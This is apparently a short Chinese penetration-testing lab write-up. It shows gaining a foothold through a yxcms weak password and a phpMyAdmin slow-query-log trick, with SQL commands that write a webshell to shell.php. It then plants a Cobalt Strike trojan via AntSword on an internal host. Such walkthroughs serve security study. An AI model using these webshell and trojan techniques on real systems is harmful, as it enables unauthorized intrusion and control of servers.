 ## 外网打点：

### 漏洞一：yxcms 弱口令登录，插件模板写马

### 漏洞二：phpMyAdmin 慢查询写马

```plain
show variables like '%slow%';
set GLOBAL slow_query_log_file='C:/phpStudy/WWW/shell.php';
set GLOBAL slow_query_log=on;
set GLOBAL log_queries_not_using_indexes=on;
```

[![](assets/1701827767-76bc66dc2ae88212cb1d8dea489cdad4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191101-7a4f48e6-9103-1.png)

## 内网上线 (143 机器)：

### CS 文件马上线：

通过 CS 制作 exe 文件木马上传蚁剑然后运行上线 CS

systeminfo 查看补丁信息：

[![](assets/1701827767-957145b47c7aea3eef2008f3492feeae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191219-a85623e0-9103-1.png)
